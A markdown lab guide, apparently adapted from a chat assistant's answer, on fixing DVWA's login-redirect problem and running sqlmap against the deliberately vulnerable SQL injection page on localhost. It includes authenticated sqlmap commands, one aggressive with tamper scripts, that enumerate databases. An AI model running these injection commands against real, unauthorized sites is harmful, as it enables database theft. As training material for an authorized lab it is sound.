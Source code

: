 # DVWA SQLi — Avoid 302 Redirects & Run sqlmap (GitHub-ready)

**Purpose:** Short, copy‑and‑pasteable guide that fixes the `HTTP/1.1 302 Found -> ../../login.php` problem, shows how to confirm a working session, and runs `sqlmap` reliably. Save this file in your GitHub repo (e.g., `DVWA_SQLi_302_Fix_and_SQLMap_Guide.md`) and copy commands directly into your VM terminal.

> **Safety:** Only run these commands against your own DVWA VM or another explicitly authorized lab environment.

---

## How to use
- Open the file in GitHub and copy commands one line at a time into your Kali VM terminal. Do not paste big multi‑line blocks at once unless the block is explicitly a single command.

---

## Quick overview (what this does)
- Recreates a fresh logged‑in terminal session (cookies.txt)
- Forces DVWA `security=low` for that session
- Tests the vulnerable page using the same cookie and browser User‑Agent
- Runs `sqlmap` with the exact cookie and UA so the server will accept the requests

---

## 1. Start from your home directory
```bash
cd ~
pwd
```

---

## 2. Create a fresh logged-in cookie file and set security=low
```bash
rm -f ~/cookies.txt
curl -s -c ~/cookies.txt -d "username=admin&password=password&Login=Login" "http://127.0.0.1/dvwa/login.php" > /dev/null
curl -s -b ~/cookies.txt -c ~/cookies.txt -d "security=low&seclev_submit=Submit" "http://127.0.0.1/dvwa/security.php" > /dev/null
```
**Expected:** `~/cookies.txt` exists and contains `PHPSESSID` and `security` with value `low`.

Check it:
```bash
sed -n '1,200p' ~/cookies.txt
```

---

## 3. Test the vulnerable page using the same cookie & browser UA
1. In your browser copy the `User-Agent` (open DevTools console and run `navigator.userAgent`) and the `PHPSESSID` from Application → Cookies for `127.0.0.1` (if you already used curl, you can get `PHPSESSID` from `cookies.txt`).

2. Run this (replace placeholders accordingly):
```bash
# If you used curl to create cookies, extract the session automatically
SESSION=$(awk '/PHPSESSID/ {print $7; exit}' ~/cookies.txt); echo "SESSION=$SESSION"
# Replace USER_AGENT with the string you copied from the browser (keep quotes)
USER_AGENT='PASTE_BROWSER_USER_AGENT_HERE'

# Test the page using that cookie + UA
curl -s -I --cookie "PHPSESSID=${SESSION}; security=low" -A "$USER_AGENT" \
  "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" | sed -n '1,12p'
```
**Expected:** `HTTP/1.1 200 OK` (or at least not `302 -> ../../login.php`). If you still get `302`, continue to the Troubleshooting section.

---

## 4. Run sqlmap using the exact cookie & UA (when you get 200 OK)
```bash
# Use the same SESSION and USER_AGENT from step 3
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=${SESSION}; security=low" --user-agent="$USER_AGENT" \
  -p id --batch --level=3 --risk=2 --dbs | tee sqlmap-dbs.txt
```
If `sqlmap` reports `not injectable`, try aggressive mode:
```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=${SESSION}; security=low" --user-agent="$USER_AGENT" \
  -p id --batch --level=5 --risk=3 --technique=BEU --random-agent --tamper=space2comment --dbs | tee sqlmap-aggr.txt
```

---

## Troubleshooting — step-by-step checks
If you still see `302` after using the browser `PHPSESSID` + UA, run these diagnostics and fix steps.

### A) Confirm DVWA database/tables exist
```bash
mysql -u dvwauser -p -D dvwa -e "SHOW TABLES;"
# (enter dvwapass or your configured password)
```
- **Expected:** a list of tables: `users`, `guestbook`, etc. If you get an error or no tables, open `http://127.0.0.1/dvwa/setup.php` in your browser and click **Create / Reset Database**.

### B) Check PHP session save path and permissions
```bash
php -i | grep session.save_path -n
ls -ld /var/lib/php/sessions 2>/dev/null || ls -ld /tmp
stat -c '%U %G %a %n' /var/lib/php/sessions 2>/dev/null || true
```
- **Expected:** session save path exists and is owned by `www-data:www-data` with mode `1733`. If not, fix with:
```bash
sudo mkdir -p /var/lib/php/sessions
sudo chown -R www-data:www-data /var/lib/php/sessions
sudo chmod 1733 /var/lib/php/sessions
sudo systemctl restart apache2
```
Then re-create cookies and re-test (Steps 2–3).

### C) If DVWA forces `security=impossible` server-side
Check config for default security value and change it:
```bash
sudo grep -n "default_security" /var/www/html/dvwa/config/config.inc.php* 2>/dev/null || true
sudo cp /var/www/html/dvwa/config/config.inc.php /var/www/html/dvwa/config/config.inc.php.bak
sudo nano /var/www/html/dvwa/config/config.inc.php
# set default to 'low' where appropriate, save and exit
sudo systemctl restart apache2
```

### D) Inspect server behavior (see Set-Cookie headers)
```bash
curl -v --cookie "PHPSESSID=${SESSION}; security=low" -A "$USER_AGENT" \
  "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" 2>&1 | sed -n '1,200p'
```
- Look for `Set-Cookie:` lines. If server sets `security=impossible`, change default in config (step C) or use browser cookie+UA.

---

## Extra: Single diagnostic block (run if you want me to debug for you)
Copy & paste everything the following prints (it contains cookie file preview, curl test, and last Apache errors):
```bash
SESSION=$(awk '/PHPSESSID/ {print $7; exit}' ~/cookies.txt); USER_AGENT='PASTE_BROWSER_UA'; 

echo "SESSION=$SESSION"; sed -n '1,200p' ~/cookies.txt; 

curl -s -I --cookie "PHPSESSID=${SESSION}; security=low" -A "$USER_AGENT" \
  "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" | sed -n '1,16p'; 

sudo tail -n 60 /var/log/apache2/error.log
```

Paste the full output here and I will tell you the **single** next command to run.

---

## Upload to GitHub
1. Save this file as `DVWA_SQLi_302_Fix_and_SQLMap_Guide.md`.  
2. In your repo folder:
```bash
git add DVWA_SQLi_302_Fix_and_SQLMap_Guide.md
git commit -m "Add DVWA SQLi 302 fix & sqlmap guide"
git push
```

---

## Final notes
- The browser cookie + exact browser UA approach resolves session acceptance problems in most lab setups. If that fails, the diagnostic block will quickly show whether it’s a DB, PHP session, or config issue. Paste the diagnostic output and I will give the **single** command you need to run next.


---

**End of guide**
